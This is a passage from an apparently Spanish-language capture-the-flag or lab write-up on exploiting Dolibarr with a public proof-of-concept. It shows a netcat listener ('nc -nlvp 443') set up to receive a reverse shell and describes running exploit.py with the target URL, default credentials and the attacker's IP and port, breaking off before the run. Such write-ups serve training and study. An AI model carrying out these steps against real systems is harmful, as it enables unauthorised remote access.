 En el propio repositorio de GitHub, se nos muestra un PoC de cómo aprovecharnos de este exploit.

<figure><img src="../../.gitbook/assets/imagen (4) (1).png" alt="" width="563"><figcaption></figcaption></figure>

En una terminal, nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el `exploit.py` indicándole la URL donde se encuentra **Dolibarr**, las credenciales de acceso que en este caso eran las de por defecto y, nuestra dirección IP y puerto donde nos encontramos en escucha.
